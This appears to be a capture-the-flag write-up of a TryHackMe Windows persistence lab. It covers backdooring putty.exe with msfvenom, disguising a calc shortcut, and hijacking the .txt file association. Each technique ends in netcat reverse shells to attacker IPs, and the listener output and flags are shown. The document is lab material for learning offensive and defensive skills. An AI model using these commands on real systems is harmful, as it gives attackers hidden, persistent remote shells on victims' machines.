 ### Putty Backdoor Example
```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```
### Shortcut Files
We have a shortcut for calc on the desktop, so we are going to abuse this. We are going to create a reverse shell using a similarly named ps1 as the target for the calc. We can do this with the following from our PWSH session

```powershell
new-item calc.ps1


    Directory: C:\Windows\System32


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/27/2024  10:38 AM              0 calc.ps1


PS C:\Windows\System32> set-content -Path .\calc.ps1 -Value 'Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.11.93.71 4445"'
PS C:\Windows\System32> get-content .\calc.ps1
```

We now modify the shortcut to run our backdoor
``` python
"Target":"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden C:\Windows\System32\calc.ps1"

Change Icon
Look for icons in this file
"calc.exe": "Select the Calc Icon to ensure it remains sneaky"
```

We setup a listener on our attack box
```bash
┌──(sstephens㉿kali-ppt)-[~/Documents/tryhackme/win_local_pers/spec_privs]
└─$ nc -lvnp 4445           
listening on [any] 4445 ...
```

From our RDP session we double click on the calc shortcut that we modified and should see the connection in our shell
```bash
connect to [10.11.93.71] from (UNKNOWN) [10.10.226.174] 49989
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>C:\flags\flag5.exe
C:\flags\flag5.exe
THM{NO_SHORTCUTS_IN_LIFE}

```

### Hijacking File Associations
We are going to make any .txt files open our backdoor
`Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Classes\.txt`

This location will show us our Programmatic ID. With this info we can look for the shell\open\command for the `txtfile` *ProgID*
`Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Classes\txtfile\shell\open\command`

We will then replace the Default value with our backdoor.
*Create a new ps1*
```powershell
new-item -path 'C:\Windows\System32\bd2.ps1'

set-content -path C:\Windows\System32\bd2.ps1 'Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.11.93.71 4445"' 

add-content -path C:\Windows\System32\bd2.ps1 "C:\Windows\system32\NOTEPAD.EXE $args[0]"
```

Default:
```
%SystemRoot%\system32\NOTEPAD.EXE %1
```

New:
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden C:\Windows\System32\bd2.ps1 %1
```

Now we open a .txt file to initiate the connection.
```
┌──(sstephens㉿kali-ppt)-[~/Documents/tryhackme/win_local_pers/spec_privs]
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.11.93.71] from (UNKNOWN) [10.10.226.174] 49999
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>c:flags\flag6.exe
c:flags\flag6.exe
The system cannot find the path specified.

C:\Users\Administrator\Desktop>c:\flags\flag6.exe
c:\flags\flag6.exe
THM{TXT_FILES_WOULD_NEVER_HURT_YOU}

```